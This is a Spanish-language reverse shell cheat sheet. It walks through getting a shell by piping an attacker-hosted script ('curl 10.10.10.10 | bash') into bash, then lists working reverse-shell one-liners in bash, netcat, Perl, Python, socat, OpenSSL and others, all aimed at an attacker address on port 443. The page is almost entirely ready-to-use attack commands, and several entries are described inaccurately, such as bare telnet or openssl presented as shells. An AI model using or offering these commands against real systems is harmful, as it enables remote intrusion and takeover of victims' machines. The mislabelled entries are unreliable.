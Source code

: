 ```yaml
---
title: Revershell cheet sheat
published: true
---
```


Primeramente debes tener ejecucion remota de comandos, 
luego verificar si hay curl  , lo haces con " which curl"
luedo de la maquina atacante te abres un servidor http y creas un 
index.html:

    	```console
    	#!/bin/bash
    	bash -i >& /dev/tcp/10.10.10.10/443 0>&1
	```

y te pones en escucha en la maquina atacante con:

	```console
    	nc -nlvp 443 
    	```
y ejecutas en la maquina victima lo siguiente 
 
	```
    	curl 10.10.10.10 | bash
	```
obtendras una revershell(realizar tratamiento de la consola)

***********************
******MAS FORMAS*****
***********************

Este comando usa netcat (nc) para establecer una conexión con el sistema atacante en la dirección IP especificada y 
el puerto 443, y ejecuta una shell inversa para permitir al sistema atacante ejecutar comandos en el sistema objetivo.

    	```console
    	nc -e /bin/sh X.X.X.X 443
    	```

Este comando utiliza el intérprete de comandos "bash" y "redirecciones de descriptor de archivo" para establecer 
una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

	```console
    	bash -i >& /dev/tcp/X.X.X.X/443 0>&1
    	```  

Este comando utiliza el lenguaje de programación Perl y las funciones de socket para establecer una conexión 
de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
    
	```console
    	perl -e 'use Socket;$i="X.X.X.X";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    	```
Este comando utiliza el lenguaje de programación Python y las funciones de socket para establecer una conexión de
 "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```python
    	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("X.X.X.X",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    	```
---

Este comando utiliza el programa socat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443. 
El comando crea un pseudo-TTY y lo conecta a través de un socket TCP.

    	```console
    	socat file:tty,raw,echo=0 tcp-connect:X.X.X.X:443 
    	```
Este comando utiliza OpenSSH para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" a través del puerto 443. 
El comando habilita un tunel inverso (reverse tunnel) en el puerto 443 del sistema objetivo, que se conecta al puerto 443 del sistema atacante.

    	```console
    	ssh -R 443:localhost:443 user@X.X.X.X  
    	```
Este comando utiliza el protocolo Telnet para establecer una conexión con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    	```console
    	telnet X.X.X.X 443
    	```
 Este comando utiliza pipes ( tuberías) y la herramienta netcat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```console
    	mknod backpipe p && nc X.X.X.X 443 0<backpipe | /bin/bash 1>backpipe
    	```

 Este comando utiliza el intérprete de comandos "bash" y redirecciones de descriptor de archivo para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```console
    	/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
    	```

 Este comando utiliza la herramienta openssl para establecer una conexión SSL/TLS con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    	```console
    	openssl s_client -quiet -connect X.X.X.X:443
    	```

 Este comando utiliza redirecciones de descriptor de archivo y sockets TCP para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
   
    	```console
    	exec 5<>/dev/tcp/X.X.X.X/443
    	```

 Este comando utiliza xterm, una terminal gráfica para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" en el puerto TCP/IP predeterminado para XDMCP (X Display Manager Control Protocol).

    	```console
    	xterm -display X.X.X.X:0
    	```
